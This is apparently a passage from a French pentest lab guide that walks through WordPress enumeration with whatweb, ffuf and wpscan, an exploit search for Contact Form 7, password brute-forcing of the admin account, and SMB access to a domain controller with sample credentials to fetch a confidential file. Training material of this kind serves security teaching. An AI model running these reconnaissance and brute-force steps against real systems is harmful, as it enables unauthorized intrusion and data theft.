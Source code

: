 **Résultat attendu** : Accès confirmé avec liste des partages accessibles pour cet utilisateur.

### Phase 3 : Énumération du serveur WordPress (20 min)

#### Étape 1 : Reconnaissance web initiale

```bash
# Identification des technologies
whatweb http://192.168.1.20

# Découverte de contenu
ffuf -u http://192.168.1.20/FUZZ -w /usr/share/wordlists/dirb/common.txt -c
```

**Résultat attendu** : Confirmation de WordPress et découverte de répertoires comme `/wp-admin`, `/wp-content`, etc.

#### Étape 2 : Énumération WordPress

```bash
# Scan WordPress complet
wpscan --url http://192.168.1.20 --enumerate p,t,u

# Scan avec recherche de vulnérabilités
wpscan --url http://192.168.1.20 --enumerate vp,vt
```

**Résultats attendus** :
- WordPress version 5.7 (obsolète)
- Plugin Contact Form 7 version 5.3.2 (vulnérable)
- Utilisateur administrateur `admin`

#### Étape 3 : Recherche d'exploits

```bash
# Recherche d'exploits pour le plugin identifié
searchsploit contact form 7 5.3.2
```

**Résultat attendu** : Identification d'une vulnérabilité de téléchargement de fichiers non autorisés dans Contact Form 7 5.3.2.

#### Étape 4 : Brute force du compte administrateur

```bash
# Tentative de brute force avec WPScan
wpscan --url http://192.168.1.20 -U admin -P /usr/share/wordlists/fasttrack.txt
```

**Résultat attendu** : Découverte du mot de passe `wordpress123` pour l'utilisateur `admin`.

### Phase 4 : Exploitation (10 min)

#### Exploitation du contrôleur de domaine

```bash
# Accès aux partages avec les identifiants obtenus
smbclient //192.168.1.10/Users -U CORP.LOCAL/john.smith%Summer2023!

# Récupération de fichiers sensibles
smb: \> cd john.smith\Desktop
smb: \> get confidential.txt
smb: \> exit

# Affichage du contenu
cat confidential.txt
```

